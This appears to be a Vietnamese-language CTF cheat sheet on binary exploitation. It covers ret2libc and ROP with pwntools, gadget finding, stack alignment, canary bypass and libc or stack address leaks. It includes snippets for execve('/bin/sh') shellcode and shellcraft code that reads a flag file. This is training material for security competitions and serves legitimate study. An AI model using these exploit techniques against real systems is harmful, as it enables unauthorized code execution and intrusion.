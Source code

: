 # Ret2LIBC-ROP

## [0] Overview:
- pwntools '/bin/sh', gadget:
```python
libc = ELF('./libc/libc.so.6')
ROP_LOAD = ROP('./libc/libc.so.6')
# /bin/sh
next(libc.search(b'/bin/sh'))
# gadget
pop_rdi_ret = libc.address + (ROP_LOAD.find_gadget(['pop rdi', 'ret']))[0]
ret = pop_rdi_ret + 1
```
- pwntools `flat()` điền byte là p64() hoặc p32() theo cấu trúc chương trình là x86 hay x86_64, VD:`[convert - ASCIS 2022]` .
- [Tools local find offset LIBC](https://x3ero0.tech/posts/orxw_balsn_ctf_2021_pwn/) .
- Để ý cái lỗi dùng chung stack giữa hai hàm đều được gọi từ hàm main dẫn đến giá trị được tham chiếu của hàm này nếu không đặt lại giá trị thì sẽ mang giá trị được tạo bởi hàm kia.
- Một số bài có thể sử dụng one_gadget kết hợp với đối số của các hàm bị ghi đè khi gọi tới.
- Trong libc.so.6 có mọi gadgets, đôi khi không thể dùng tools để tìm được 1 số gadgets.
    * VD: `syscall ; ret` [dicectf 2023 - bop].
    * gadget push rax;ret
    * jmp rsp
    * ...
```python
import pwn
rop = pwn.ROP(libc, base=<address_overwrite>)
rop.call(rop.find_gadget(["syscall", "ret"]))
print(rop.dump())
```
- Từ Ubuntu 18.04 trở đi, nếu việc thực thi thất bại tại những hàm như buffered_vfprintf() hay do_system() trong những file thực thi 64 bit là do ngay trước câu lệnh ret, đầu vùng nhớ stack được cấp phát 16 bytes cho việc gọi lệnh tại return address nên để thực thi được thì cần chèn thêm 1 ROPgadget "ret" vào trước câu lệnh cần thực thi để bỏ đi 1 stack 8 bytes đầu tiên và thực thi câu lệnh này nằm ở stack ngay sau đó.
```
STACK:
1. địa chỉ lệnh "ret"
2. địa chỉ lệnh "pop rdi, ret"
3. địa chỉ lưu chuỗi 
4. địa chỉ hàm gets

5. địa chỉ lệnh "ret"
6. địa chỉ lệnh "pop rdi, ret"
7. địa chỉ muốn được in (đọc chuỗi)
8. địa chỉ hàm printf 
# leak = printf thì sau printf lại phải dùng ret
9. địa chỉ lệnh "ret"
10. địa chỉ nào đó muốn return về.
```
- Vậy nên để bypass tránh việc ghi đè canary ta chỉ cần nhập chữ cái (+, -, -, /) mà không thuộc format %lu thì phần tử đó sẽ bị skip, không thay đổi. VD: chall `Warmup` - UIT-2022-CTF .
- Leak được LIBC thì có thể leak được địa chỉ thuộc stack thông qua biến environ trong LIBC.
- Có thể leak libc thông qua đọc `/proc/self/maps`
- `Chall pwn07 - whitehat`: Dùng dup2(0, 1) để mở lại stdout, leak giá trị.
- `shellcode`:

```python
...
elf = ELF('./vuln')
context.binary = elf
p = elf.process()
...
context.arch = 'amd64'
shellcode = asm(
    f'''
    xor rdi, rdi
    push rdi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    xor rsi, rsi
    xor rax, rax
    add al, 0x3b
    syscall
    ''')
```
```python
shellcode = pwn.asm(
	pwn.shellcraft.open("./flag.txt") + 
	pwn.shellcraft.read(3, "rsp", 64) + 
	pwn.shellcraft.write(1, "rsp", 64)
).ljust(0x44, b"\x90")
```


## [1] Technique:
- [CTF: No leak - close(fd)](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) .
- [CTF: BlindROP](https://soolidsnake.github.io/2018/07/15/blindx86_64_rop.html) .
- BRUTEFORCE - `TWOSHOT - KMACTF2022`
- ...


